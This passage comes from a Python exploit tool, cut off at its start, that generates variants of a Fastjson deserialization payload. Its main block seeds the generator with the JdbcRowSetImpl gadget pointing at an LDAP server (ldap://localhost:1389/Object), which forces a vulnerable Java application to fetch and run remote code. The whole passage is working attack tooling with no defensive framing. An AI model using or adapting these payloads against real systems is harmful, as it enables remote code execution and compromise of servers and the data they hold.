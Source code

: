 ```python
        cache_payload["rand2"] = json.loads(payload)
        return json.dumps(cache_payload)

    def gen(self):
        payloads = []

        payload1 = self.gen_payload1(self.base_payload)
        yield payload1

        payload2 = self.gen_payload2(self.base_payload)
        yield payload2

        payload3 = self.gen_payload3(self.base_payload)
        yield payload3

        payload4 = self.gen_payload4(self.base_payload)
        yield payload4

        payload5 = self.gen_payload5(self.base_payload)
        yield payload5

        payloads.append(payload1)
        payloads.append(payload2)
        payloads.append(payload5)

        for payload in payloads:
            yield self.gen_payload3(payload)
            yield self.gen_payload4(payload)


if __name__ == '__main__':
    fjp = FastJsonPayload('''{
  "rand1": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://localhost:1389/Object",
    "autoCommit": true
  }
}''')

    for payload in fjp.gen():
        print(payload)
        print()
```



